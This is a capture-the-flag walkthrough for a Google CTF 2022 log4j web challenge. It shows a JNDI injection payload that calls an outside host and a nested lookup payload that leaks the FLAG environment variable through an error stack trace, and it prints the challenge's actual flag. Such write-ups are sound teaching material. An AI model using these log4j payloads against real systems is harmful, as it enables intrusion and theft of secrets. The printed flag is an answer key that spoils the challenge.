 # Log4j Challenge Writeup
## Files
* Challenge folder: https://github.com/google/google-ctf/tree/master/2022/web-log4j

## Flag Location
* environment variable `FLAG` or `${env:FLAG}`

## Background Info
This challenge is based on the log4j vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228))  that occured late 2021 but made a bit more complicated.

There are only two major directories within the repo (chatbot and server). Within these directories the only important files to investigate are the **App.java** (located at chatbot/src/main/java/com/google/app/App.java) and **app.py** (located server/app.py). These two files are the main logic and server taking in our input for the web challenge respectively.

The architecture is quite straight forward. But I'll break it down quickly. The **app.py** server logic that takes our input in. There is very little validation checks here, basically just making sure that you are submitting something. The input then can passed to the **App.java** file where the main logic begins. By this point your input has been split by a space and only the first index in the array matters as this is treated as *args* (for **App.java***) and is the only value that gets logged within **App.java**. For example, if you inputed `hi asdf` only `hi` gets logged within the log4j logger. So it is pretty important that we get the injection correct here. This is because the vulnerable code is located in **App.java** and can be seen here `LOGGER.info("msg: {}", args);`. 

**Please note:** that any error message you see on the web page doesn't matter as this vulnerable log code occurs before this happens

## Solutionsc
Start of by doing this locally as seeing the logging occur server side help quite a bit with the exploitation. To get the container running locally after downloading the file run the following command: `docker run -it --cap-add=SYS_ADMIN --read-only --security-opt seccomp=unconfined -p 127.0.0.1:1337:1337  $(docker build -q .)`

In your browser, go to http://127.0.0.1:1337.

Try a standard jndi payload such as `
${jndi:dns://aeutbj.example.com/ext}
`
 
Observe to see that the logger doesn't execute this payload since JNDI isn't enabled within this code.  In the screenshot below I showed what the logger outputted, however, if JDNI was enabled the logger would return something similar to `Send LDAP reference result for a redirecting to http://aeutbj.example.com`.

![alt text](https://raw.githubusercontent.com/bc-donfran/CTF-Writeups/main/Google%20CTF%202022/web/img/failed%20jndi.png)

Since JNDI isn't enabled we aren't able to extract the flag out via a webhook which makes it a bit more hard.

However, this means that we only have the log4j lookup features to attempt to get the flag. The log4j lookup features are documented pretty well [here](https://logging.apache.org/log4j/2.x/manual/lookups.html) and [here](https://logging.apache.org/log4j/2.x/manual/configuration.html). Lookups in log4j are basically a way to add values to the log4j configurations but there are some default ones available.

Try a basic lookup payload such as `${java:version}` and we observe in the log that the payload isn't reflected but we are able to see `Java version 11.0.15` as seen in the screenshot below.

![alt_text](https://raw.githubusercontent.com/bc-donfran/CTF-Writeups/main/Google%20CTF%202022/web/img/java%20version.png)

You then can try to see if we can see the flag in the log server side by injection the payload `${env:FLAG}` and we see CTF{REDACTED}.

That means lookup is a success but the problem is that this isn't reflected on the webapge meaning we won't be able to see the flag. We have to force it out.

After a bit of fuzzing and reading the documentation, I learnt that you can generate an error by providing an attribute that doesn't exists for a lookup. For example, if I were to submit `${java:g22}` it will show a stack trace on the webpage as seen in the screenshot below.

![alt_text](https://raw.githubusercontent.com/bc-donfran/CTF-Writeups/main/Google%20CTF%202022/web/img/g22.png)

I saw `java:g22` within the stack trace and got to thinking what would happen if I repalced the `g22` above with `${env:FLAG}` to produce the payload: `${java:${env:FLAG}}`. From that payload, I was able to see the `CTF{REDACTED}` as seen in the screenshot below.

![alt_text](https://raw.githubusercontent.com/bc-donfran/CTF-Writeups/main/Google%20CTF%202022/web/img/local_flag.png)

Submitting this into the actual challenge got me the flag `CTF{d95528534d14dc6eb6aeb81c994ce8bd}` as seen in the screenshot below.

![alt_text](https://raw.githubusercontent.com/bc-donfran/CTF-Writeups/main/Google%20CTF%202022/web/img/real_flag.png)
